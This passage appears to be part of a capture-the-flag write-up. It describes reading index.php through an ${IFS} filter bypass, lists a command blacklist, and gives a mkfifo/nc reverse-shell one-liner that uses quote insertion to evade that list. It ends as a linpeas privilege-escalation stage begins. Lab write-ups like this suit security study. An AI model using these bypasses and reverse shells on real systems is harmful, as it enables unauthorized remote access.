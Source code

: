 
__We need to see what commands are blacklisted in order to get a proper reverse shell.__

Hence we try

>cat${IFS}index.php

So if we go to the source code we can see the index.php .

![blacklist](images/blacklist.png)

```
'nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls'
```
After trying many filters I came to conclusion that I have to use double quotes filter to get a reverse shell.

>r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \<ip> 1234 >/tmp/f



### __Third Stage : www-data to apaar__


So our first step is to run **linpeas** script and get info on privilege escalation to user.

After running we get :

![](images/linpeas1.png)
